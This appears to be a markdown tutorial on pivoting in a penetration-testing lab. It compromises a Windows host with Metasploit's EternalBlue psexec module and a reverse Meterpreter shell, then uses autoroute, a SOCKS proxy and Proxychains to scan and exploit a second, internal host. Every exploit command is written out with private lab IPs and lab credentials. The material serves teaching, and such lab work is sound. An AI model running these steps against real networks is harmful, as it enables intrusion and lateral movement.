 ````markdown
# Pivoting and Routing Tables in Penetration Testing

This document explains pivoting between two target machines (`Target1` and `Target2`) using Kali Linux, Metasploit, and Proxychains.  
Each command is annotated with **what it does and why it’s needed** for better understanding.

---

## Description

### Pivoting
- **Pivoting** = using one compromised machine as a stepping stone to reach another machine in an otherwise inaccessible internal network.
- Example: You compromise `Target1` (on both external + internal networks) and then use it to reach `Target2` (internal only).

---

### SOCKS Proxy
- A **SOCKS proxy** forwards all types of traffic (TCP/UDP) through an intermediate host.  
- In pentesting:
  - It allows you to tunnel your traffic **through Target1 into Target2**.  
  - Your Kali machine behaves as if it were inside the internal network.  

---

### Proxychains
- **Proxychains** forces any application to send its traffic through a proxy (SOCKS, HTTP, etc.).  
- Why needed?
  - Without it, only **Metasploit modules** can use the pivot (via `autoroute`).  
  - With it, **any tool** (`nmap`, `sqlmap`, `msfconsole`) can access internal hosts.  

---

### Strict Chain vs Dynamic Chain
- **Strict Chain**: Proxychains must use proxies in the *exact order* listed in the config file.  
  - If one proxy fails, the whole chain fails.  
  - Useful if you want controlled routing.  
- **Dynamic Chain**: Proxychains will try proxies in order but *skip dead ones*.  
  - More flexible, commonly used in CTFs and real-world pentests.  
- That’s why we usually **uncomment `dynamic_chain`** and **comment `strict_chain`**.

---

## Network Configuration

- **Kali Linux (Attacker)**
  - BA: `192.168.0.139`

- **Windows 10 (Target1 - Compromised Pivot)**
  - BA: `192.168.0.117`
  - HA: `192.168.205.105`

- **Windows 10 Clone (Target2 - Internal)**
  - HA: `192.168.205.106`

---

## Step 1: Gaining Access to Target1

```bash
msfconsole
````

* Launches Metasploit console.

```bash
search ms17-010
```

* Searches for EternalBlue SMB exploit.

```bash
use exploit/windows/smb/ms17_010_psexec
```

* Loads the specific exploit module.

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

* Payload gives us a reverse Meterpreter shell from Target1 back to Kali.

```bash
set RHOST 192.168.0.117
set SMBUSER forensic
set SMBPASS admin
set LHOST 192.168.0.139
set LPORT 6622
```

* Configures exploit:

  * `RHOST`: victim IP (Target1 external).
  * `SMBUSER/SMBPASS`: valid credentials.
  * `LHOST/LPORT`: our Kali listener.

```bash
exploit
```

* Runs the exploit.
* If successful → Meterpreter session opened on Target1.

---

## Step 2: Adding Routing Table for Pivoting

```bash
use post/multi/manage/autoroute
```

* Loads the `autoroute` module, which adds routes inside Metasploit.

```bash
set SESSION 1
```

* Tells autoroute to use Meterpreter session `1` (our session on Target1).

```bash
run
```

* Adds a route to the internal network (`192.168.205.0/24`) through Target1.

```bash
route
```

* Displays active routes in Metasploit.
* **Important:** This routing only works *inside Metasploit*.

  * You can now run Metasploit modules against Target2.
  * But you **cannot use external tools like nmap** yet.

---

## Step 3: Enabling SOCKS Proxy in Metasploit

```bash
use auxiliary/server/socks_proxy
```

* Loads the SOCKS proxy server module.

```bash
run
```

* Starts a local SOCKS5 proxy listener on Kali (default `127.0.0.1:1080`).
* Any tool configured to use this proxy can now tunnel through Target1 → Target2.

```bash
jobs
```

* Lists background jobs.
* Confirms the SOCKS proxy is running.

**Why is this needed?**

* The routing table alone only works for Metasploit.
* SOCKS proxy allows us to forward **any tool’s traffic** into the pivot network.
* Combined with Proxychains → external tools (nmap, msfconsole, etc.) can reach Target2.

---

## Step 4: Configuring Proxychains

```bash
mousepad /etc/proxychains4.conf
```

* Opens config file.

Inside:

* Uncomment:

  ```text
  dynamic_chain
  ```

  → Use dynamic chain mode (skip dead proxies).

* Comment:

  ```text
  strict_chain
  ```

  → Avoid strict ordering.

* Add/Replace SOCKS proxy:

  ```text
  socks5 127.0.0.1 1080
  ```

  → Point to our Metasploit SOCKS5 proxy.

Save and exit.

---

## Step 5: Scanning and Exploiting Target2

```bash
proxychains nmap -p 139,445 -sT -n -Pn 192.168.205.106
```

* Runs Nmap **through Proxychains**.
* The scan reaches Target2 via Target1.
* Without Proxychains, Kali cannot reach `192.168.205.106` directly.

```bash
proxychains msfconsole
```

* Launches Metasploit, but all traffic goes through Proxychains.
* This lets us exploit Target2 as if we were inside the internal network.

```bash
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.205.106
set SMBUSER forensic
set SMBPASS admin
set LPORT 6644
exploit
```

* Same EternalBlue exploit, but now targeting Target2.
* Exploit works because traffic is tunneled through Target1.

---

## Key Takeaways

* **Routing table alone**: Only works *inside Metasploit*. Limited.
* **SOCKS Proxy + Proxychains**: Extends pivoting to any tool.
* **Strict vs Dynamic chain**:

  * Strict = must use all proxies in order, less fault-tolerant.
  * Dynamic = skips dead ones, more flexible.
* **Workflow**:

  1. Compromise Target1.
  2. Add route (Metasploit-level pivoting).
  3. Start SOCKS proxy.
  4. Configure Proxychains.
  5. Scan/exploit Target2 using any tool.

